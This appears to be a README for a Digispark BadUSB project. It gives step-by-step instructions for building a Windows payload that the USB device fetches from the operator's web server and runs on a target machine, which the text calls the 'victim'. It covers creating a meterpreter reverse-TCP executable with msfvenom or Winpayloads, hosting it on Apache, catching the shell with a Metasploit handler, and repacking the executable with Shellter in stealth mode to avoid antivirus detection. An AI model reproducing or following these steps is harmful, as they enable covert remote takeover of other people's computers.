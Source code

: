 ## Instructions To Creating the Payload to be executed by run.ino:

 ### METHOD 1 On the host machine(Linux): Using Winpayloads 
   ~ https://github.com/nccgroup/Winpayloads/blob/master/README.md ~
   #### Installation: 
        1. git clone https://github.com/nccgroup/Winpayloads.git
        2. cd Winpayloads  
        3. ./setup.sh
        
   #### RUN: 
        1. ./WinPayLoads.py
        2. 2 
        3. Enter port and ip or simply press Enter for defaults
        4. y 
        5. enter victim's windows version
        6. y
        7. That's it!! update run.ino with the url to the executable eg: http://192.168.0.24:8000/fgxjdqzp.exe, then compile and load to your digispark

  ### On the host machine (linux): // if above method doesn't work. (note: change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  *OPTIONAL* go to Avoiding AntiVirus
   4.  service apache2 start
   5.  msfconsole
   6.  use exploit/multi/handler
   7.  set PAYLOAD windows/meterpreter/reverse_tcp
   8.  set LHOST 192.168.0.24
   9.  set LPORT 8080
   10.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
    

